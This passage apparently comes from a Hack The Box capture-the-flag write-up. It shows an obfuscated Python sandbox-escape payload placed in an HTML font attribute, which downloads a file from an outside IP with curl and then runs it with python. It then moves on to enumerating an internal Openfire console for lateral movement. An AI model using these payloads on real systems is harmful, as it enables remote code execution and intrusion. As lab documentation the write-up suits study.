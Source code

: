 ```bash
<font color="[[getattr(pow,W('__globals__'))['os'].system('curl -o r 192.168.1.141/r')for W in[O('W',(str,),{'M':1,'startswith':lambda s,x:0,'__eq__':lambda s,x:s.m()and s.M<0 and str(s)==x,'m':lambda s:{setattr(s,'M',s.M-1)},'__hash__':lambda s:hash(str(s))})]]for O in[type(type(1))]]and 'r'"/>
```
We see that the file was grabbed:  

![image](https://i.imgur.com/0ER0Z3X.png)

Another command is necesary now to simply run it with python:

```bash
<font color="[[getattr(pow,W('__globals__'))['os'].system('python r')for W in[O('W',(str,),{'M':1,'startswith':lambda s,x:0,'__eq__':lambda s,x:s.m()and s.M<0 and str(s)==x,'m':lambda s:{setattr(s,'M',s.M-1)},'__hash__':lambda s:hash(str(s))})]]for O in[type(type(1))]]and 'r'"/>
```

And we get on the box as user `blake` and get the user flag:  

![image](https://i.imgur.com/yJq0SHs.png)

### Lateral Movement to Openfire user
Running the net users commands, we can see another user called openfire:  

![image](https://i.imgur.com/i9AR98v.png)

In `Program Files` we also see an openfire folder:  

![image](https://i.imgur.com/WFmHT2b.png)

But as user blake, we are not able to enumerate it as we don't have access to it:  

![image](https://i.imgur.com/5LGXVsX.png)

After some research about openfire, we find that the console port should be on port 9090:  
![image](https://i.imgur.com/qj0KJfB.png)

Indeed, internally, we also see a lot of open ports, among them, we also find the Openfire console port open:  
![image](https://i.imgur.com/xajEbTO.png)

Doing a curl request with `-L` to follow redirects, we can enumerate the Openfire and find it's version:  
```bash
curl -L http://127.0.0.1:9090/index.jsp
```
![image](https://i.imgur.com/tGOqJwE.png)

A quick google search reveals that this version is vulnerable to an Authentication Bypass:  
![image](https://i.imgur.com/1ZvhB4u.png)

> [!NOTE]  
> _Another difference from conception to actual deployement was that initially I wanted the AV to be enabled. This would've meant that the Metasploit module and other scripts found online wouldn't work. After testing however, HTB made the decision to disable the AV making the box more inline with a Medium difficulty. At the time of originally making the box, the path below worked with the AV enabled_.
